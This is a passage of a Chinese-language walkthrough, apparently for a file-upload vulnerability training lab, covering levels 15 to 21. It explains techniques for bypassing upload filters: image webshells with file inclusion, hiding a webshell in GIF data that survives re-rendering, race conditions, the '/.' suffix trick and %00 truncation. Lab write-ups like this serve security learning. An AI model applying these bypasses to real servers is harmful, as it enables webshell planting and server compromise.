

## 第十五关

文件包含漏洞的利用与上传图片马，文件包含漏洞有，本地文件包含与远程文件包含

与第十四关的绕过方式一样，只是两关的代码实现方式不一样。这一关是使用了`getimagesize`与`image_type_to_extension`这两个函数。

```php
image_type_to_extension(); //根据指定的图像类型返回对应的后缀名
```

## 第十六关

文件包含漏洞的利用与上传图片马，文件包含漏洞有，本地文件包含与远程文件包含

与第十四关的绕过方式一样，这一关需要开启`php_exif`这个配置，这一关的核心是使用了 `exif_imagetype`这个函数。

```php
exif_imagetype(); // 返回的图像类型的 MIME 类型
```



## 第十七关

二次渲染（略缩图中）对用户上传的图片再次压缩、裁剪等渲染操作（如PHP中的`imagecreatefromjpeg()`等函数），所以普通的图片马都难逃被渲染的悲剧。

文件包含漏洞的利用与上传图片马，文件包含漏洞有，本地文件包含与远程文件包含

这一关最好上传gif的文件，gif图片的特点是无损, 修改图片后，图片质量几乎没有损失，我们可以对比上传前后图片的内容字节，在渲染后不会被修改的部分插入木马。

```text
渲染前后的两张 GIF，没有发生变化的数据块部分直接插入 Webshell 即可
PNG 没有 GIF 那么简单，需要将数据写入到 PLTE 数据块 或者 IDAT 数据块
JPG 需要使用脚本将数据插入到特定的数据块，而且可能会不成功，所以需要多次尝试
```

这一关需要多尝试不然可能过不去

## 第十八关

条件竞争逻辑漏洞，在没有渲染之前就已经将图片保存到服务器中了，在文件保存之后，在去修改文件名

考的是条件竞争，本人无法复现

条件竞争，很看几率，有时候是无法成功的，这个漏洞是代码的问题

系统的占用，在操作系统中，我们正在编辑一个文件，这个时候我们修改文件名，是没有办法修改的

## 第十九关

也是条件竞争，是在是做不出来

## 第二十关

### 第一种

考察内置函数漏洞，可以使用`/.`进行绕过，这样代码层面判断的后缀就是空，不在黑名单中。

```php
$file_ext = pathinfo($file_name,PATHINFO_EXTENSION); // 返回文件的后缀
move_uploaded_file() // 有这么一个特性，会忽略掉文件末尾的 /.
```

eg：

```php
$img_path = UPLOAD_PATH . '/' .$file_name;
upload/upload-19.php/. # 后缀名名为空
```



### 第二种

查看代码这个是`POST`接受数据，所以使用和第十三关一样的方法，`%00`解码截断，即可绕过成功



## 第二十一关

这一关是利用数组绕过验证

